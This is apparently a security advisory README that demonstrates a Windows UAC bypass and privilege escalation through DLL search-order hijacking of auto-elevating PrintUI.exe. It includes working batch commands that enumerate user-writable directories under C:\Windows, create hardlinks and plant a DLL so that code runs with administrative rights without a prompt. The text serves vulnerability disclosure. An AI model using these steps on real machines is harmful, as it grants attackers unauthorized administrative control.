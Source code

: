 # Microsoft-Windows-UAC-Privilege-Escalation
Microsoft Windows can dupe users into trusting executables with DLL hijacking and privilege escalation issues

Hi @ll,

Microsoft still ships Windows with and lets it create user-writable
directories below the "Windows" directory %SystemRoot%\ -- despite
that, with exception of %SystemRoot%\Temp\, they are all used to
store DATA and SHOULD have been placed below %ProgramData% alias
%SystemDrive%\ProgramData\ instead!

JFTR: %ProgramData% was introduced with Windows Vista more than 15
      (in words: FIFTEEN) years ago, but Microsoft obviously just
      doesn't care to cleanup their mess.

Authenticode signature verification, for example required to color the
UAC prompt yellow (untrusted) or blue (trusted) and as precondition
for the "auto-elevation" (mis)feature of some 63+ applications shipped
with Windows 7 and ALL later versions, doesn't care about the filename
of an executable, but (eventually) evaluates the pathname of the
(application) directory.


Put together these two weaknesses allow to run arbitrary code WITH
administrative rights in several (user-writable) directories below
C:\Windows: in the account created during Windows setup without UAC
prompt, in (unprivileged) standard user accounts with (blue) UAC prompt!

### CVSS 3.0 score: 8.2 (High)
### CVSS 3.0 vector: 3.0/AV:L/AC:L/PR:L/UI:R/S:C/C:H/I:H/A:H


# Demonstration
  ~~~~~~~~~~~~~

### 1. Log on to an arbitrary unprivileged (standard) user account and start
   the command processor, then run the following command lines to detect
   the user-writable directories below %SystemRoot%\ through creation of
   a hardlink named WRITABLE.EXE and collect their pathnames in the file
   %ProgramData%\WRITABLE.LOG:
   
```
   COPY /Y NUL: "%ProgramData%\WRITABLE.LOG" && (
   DIR "%SystemRoot%" /A:D /B /S 1>"%ProgramData%\WRITABLE.TMP" && (
   FOR /F "Delims= UseBackQ" %? IN ("%ProgramData%\WRITABLE.TMP") DO @(
   MKLINK /H "%~?\WRITABLE.EXE" "%ProgramData%\WRITABLE.LOG" 2>NUL: && 1>>"%ProgramData%\WRITABLE.LOG" ECHO %~?))
   TYPE "%ProgramData%\WRITABLE.LOG")
```   

   On fresh installations of Windows 10 2004/20H1/20H2 for AMD64 alias
   x64 processors this yields the following pathnames:

```
   C:\Windows\Tasks
   C:\Windows\Temp
   C:\Windows\tracing
   C:\Windows\Registration\CRMLog
   C:\Windows\System32\FxsTmp
   C:\Windows\System32\Tasks
   C:\Windows\System32\Com\dmp
   C:\Windows\System32\Microsoft\Crypto\RSA\MachineKeys
   C:\Windows\System32\spool\PRINTERS
   C:\Windows\System32\spool\SERVERS
   C:\Windows\System32\spool\drivers\color
   C:\Windows\SysWOW64\FxsTmp
   C:\Windows\SysWOW64\Tasks
   C:\Windows\SysWOW64\Com\dmp
```   

   On installations which were upgraded to (any version of) Windows 10,
   the following additional pathname is typically listed:
   
```
   C:\Windows\System32\Tasks_Migrated
```   

   On installations which have been used for some time, the following
   additional pathnames are typically listed:
   
```
   C:\Windows\debug\WIA
   C:\Windows\PLA\Reports
   C:\Windows\PLA\Rules
   C:\Windows\PLA\Templates
   C:\Windows\PLA\Reports\de-DE
   C:\Windows\PLA\Reports\en-GB
   C:\Windows\PLA\Reports\en-US
   ...
   C:\Windows\PLA\Reports\ru-RU
   C:\Windows\PLA\Rules\de-DE
   C:\Windows\PLA\Rules\en-GB
   C:\Windows\PLA\Rules\en-US
   ...
   C:\Windows\PLA\Rules\ru-RU
   C:\Windows\System32\catroot2\{F750E6C3-38EE-11D1-85E5-00C04FC295EE}
   C:\Windows\System32\LogFiles\WMI
```

### 2. Let's see whether the hardlinks WRITABLE.EXE can be (ab)used: copy an
   arbitrary executable to all of them and execute it.

   JFTR: PrintUI.exe is one of the 63+ applications which have UAC auto-
         elevation enabled.
       
```
   SETLOCAL ENABLEDELAYEDEXPANSION
   COPY /Y "%ProgramData%\WRITABLE.LOG" "%ProgramData%\WRITABLE.TMP" && (
   COPY /Y "%SystemRoot%\System32\PrintUI.exe" "%ProgramData%\WRITABLE.LOG" && (
   FOR /F "Delims= UseBackQ" %? IN ("%ProgramData%\WRITABLE.TMP") DO (
   START "" /WAIT "%~?\WRITABLE.EXE"
   ECHO !ERRORLEVEL!)))
```   

   In unprivileged (standard) user accounts this triggers an UAC prompt
   for each file executed, some yellow, showing "Publisher: Unknown",
   some blue showing "Verified Publisher: Microsoft Windows".

   After giving consent to the UAC prompt a dialog box showing usage
   instructions for PrintUI.dll is displayed, indicating that (the copy
   of) PrintUI.exe loads PrintUI.dll:
   
```
   | Usage: rundll32 printui.dll,PrintUIEntry [options] [@commandfile]
```   

   JFTR: since PrintUI.exe runs elevated, PrintUI.dll runs elevated too!


### 3. Let's verify the Authenticode signature of the copy of PrintUI.exe:

```
   SignTool.exe VERIFY /A /V "%ProgramData%\WRITABLE.LOG"

   | Verifying: C:\ProgramData\WRITABLE.LOG
   | File is signed in catalog: C:\Windows\system32\CatRoot\{F750E6C3-38EE-11D1-85E5-
00C04FC295EE}\ntexe.cat
   ...
   | Successfully verified: C:\ProgramData\WRITABLE.LOG
   ...
```

   Authenticode doesn't care about the path/filename of signed executables,
   even for files with detached signatures, although the *.CAT files used
   to distribute detached digital signatures can store the filename!


### 4. Let's see whether PrintUI.exe follows the guidance given by the MSRC
   (Microsoft Security Response Center) in the almost 7 year old blog post
   <https://blogs.technet.microsoft.com/srd/2014/05/13/load-library-safely/>.
   the more than 10 year old security advisory
   <https://technet.microsoft.com/en-us/library/2269637.aspx>, or the nearly
   10 year old MSKB articles <https://support.microsoft.com/en-us/kb/2389418>
   and <https://support.microsoft.com/en-us/kb/2533623>: copy ShUnimpl.dll
   as PrintUI.dll next to the copy of PrintUI.exe and execute the latter.

   JFTR: ShUnimpl.dll is the graveyard for obsolete "shell" functions; its
         _DllMainCRTStartup() entry point function returns FALSE to disable
         their use, lets the module loader fail with NTSTATUS 0xC0000142
         alias STATUS_DLL_INIT_FAILED, and lets LoadLibrary() fail with the
         Win32 error 1114 alias ERROR_DLL_INIT_FAILED

```
   COPY "%SystemRoot%\System32\ShUnimpl.dll" "%ProgramData%\PrintUI.dll"
   RENAME "%ProgramData%\WRITABLE.LOG" PrintUI.exe
   START "" /WAIT "%ProgramData%\PrintUI.exe"
   CERTUTIL.exe /ERROR %ERRORLEVEL%
```

   OUCH: (the copy of) PrintUI.exe loads an arbitrary PrintUI.dll from its
         application directory instead of %SystemRoot%\System32\PrintUI.dll

   The Common Weaknesses and Exposures classifies such misbehavior, which
   results in arbitrary code execution (here with escalation of privilege),
   as
   - CWE-426: Untrusted Search Path
     <https://cwe.mitre.org/data/definitions/426.html>
   - CWE-427: Uncontrolled Search Path Element
     <https://cwe.mitre.org/data/definitions/427.html>

   The Common Attack Pattern Enumeration and Classification lists it as
   - CAPEC-471: Search Order Hijacking
     <https://capec.mitre.org/data/definitions/471.html>

   JFTR: (un)fortunately PrintUI.dll is not the only DLL that PrintUI.exe
         loads from an unsafe path, and (un)fortunately PrintUI.exe is not
         the only auto-elevating application which loads DLLs from unsafe
         paths!

   A really big "Hooray!" to Microsoft's sloppy, careless and clueless
   developers as well as their sound asleep quality^Wmiserability assurance!


### 5. Let's see whether UAC auto-elevation is also possible in at least one
   of the user-writable directories: log on to the UAC-controlled user
   account created during Windows setup, start an UNELEVATED (unprivileged)
   command prompt and run the following command lines:

```
   SETLOCAL ENABLEDELAYEDEXPANSION
   FOR /F "Delims= UseBackQ" %? IN ("%ProgramData%\WRITABLE.TMP") DO (
   MKLINK /H "%~?\PrintUI.dll" "%ProgramData%\PrintUI.dll" && (
   START "" /WAIT "%~?\WRITABLE.EXE"
   ECHO !ERRORLEVEL!))

```

   BINGO: GAME OVER!

   UAC performs auto-elevation at least in the directories
   C:\Windows\System32\CatRoot2\{F750E6C3-38EE-11D1-85E5-00C04FC295EE}\
   and C:\Windows\System32\Tasks_Migrated\; a copy of PrintUI.exe run in
   these directories loads/executes an arbitrary PrintUI.dll placed there
   too, with ADMINISTRATIVE privileges, without UAC prompt.

   JFTR: even without UAC auto-elevation, this beginner's error present in
         PrintUI.exe (really: almost all applications shipped with Windows)
         allows to fool Jane and Joe Average who typically give consent to a
         blue UAC prompt which shows "Certified Publisher: Microsoft Windows".

